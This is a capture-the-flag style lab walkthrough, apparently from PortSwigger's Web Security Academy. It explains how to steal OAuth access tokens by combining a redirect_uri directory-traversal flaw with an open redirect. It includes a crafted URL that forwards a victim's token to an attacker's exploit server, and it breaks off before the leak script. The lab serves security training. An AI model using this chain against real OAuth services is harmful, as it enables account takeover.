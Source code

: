 The best practice for client applications to provide a whitelist of their genuine callback URIs when registering with the OAuth service. This way, when the OAuth service receives a new request, it can validate the redirect_uri parameter against this whitelist. In this case, supplying an external URI will likely result in an error. However, there may still be ways to bypass this validation.

**Stealing codes and access tokens via a proxy page**

### Stealing OAuth access tokens via an open redirect

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

**Solution**
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at */me* and then uses the data it fetches to log the user in. Send the *GET /me* request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent ```GET /auth?client_id=[...]``` request and send it to Repeater.
4. In Repeater, experiment with the ```GET /auth?client_id=[...]``` request. Observe that you cannot supply an external domain as *redirect_uri* because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the /../ directory traversal sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In your browser, log in again and go to the intercepted ```GET /auth?client_id=[...]``` request in Burp Proxy.
7. Confirm that the *redirect_uri* parameter is in fact vulnerable to directory traversal by changing it to:

    ``` https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1 ```

    Forward any remaining requests and observe that you are eventually redirected to the first blog post. In your browser, notice that your access token is included in the URL as a fragment.
8. With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding ```GET /post/next?path=[...]``` request to Repeater.
9. In Repeater, experiment with the path parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the ```redirect_uri``` pointing to the open redirect, which subsequently forwards the victim to your exploit server:

    ``` https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email ```

11. Test that this URL works correctly by visiting it in your browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
12. On the exploit server, create a suitable script at /exploit that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
